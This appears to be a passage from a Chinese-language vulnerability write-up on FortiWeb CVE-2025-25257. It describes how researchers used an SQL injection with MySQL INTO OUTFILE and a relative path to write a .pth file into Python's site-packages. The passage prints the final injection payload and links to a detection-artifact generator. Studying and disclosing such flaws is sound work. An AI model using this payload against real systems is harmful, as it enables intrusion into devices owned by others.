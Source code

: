 看起来我们完蛋了，对吧？  
  
此时我们感到非常沮丧。但 - 我们还有想法。  
  
如果我们使用通配符 (glob characters) 呢？与其提供完整路径，我们尝试了类似这样的方法：  
```
bash
/var/log/lib/python3.10/site-*/
```  
  
不幸的是，MySQL 又给了我们一个错误——事实证明它不支持在 INTO OUTFILE  
中使用通配符 (globbing)。真遗憾。  
  
好吧，新想法：如果我们使用相对路径而不是绝对路径呢？  
  
好消息——这奏效了。  
  
通过在 INTO OUTFILE  
查询中使用相对路径，MySQL 会将其解析为相对于进程工作目录的路径——而该目录恰好非常接近 Python 的 site-packages  
目录。我们使用了：  
```
bash
../../lib/python3.10/site-packages/x.pth
```  
  
最终的 payload 是什么？  
```
sql
'/**/UNION/**/SELECT/**/token/**/from/**/fabric_user.user_table/**/into/**/outfile/**/'../../lib/python3.10/site-packages/x.pth'
```  
  
总长度：**127 字节**  
。正好多出一个字节。运气不错。  
# 检测特征生成器  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCM8OiaFFdRfrz0MY2VojWkkibA7sGwyica0DaWfCUSvIbcycJTIaaiaPD9zzcK96pm8M3jdVfGurQ3r6A/640?wx_fmt=png&from=appmsg "")  
  
https://github.com/watchtowrlabs/watchTowr-vs-FortiWeb-CVE-2025-25257  
  
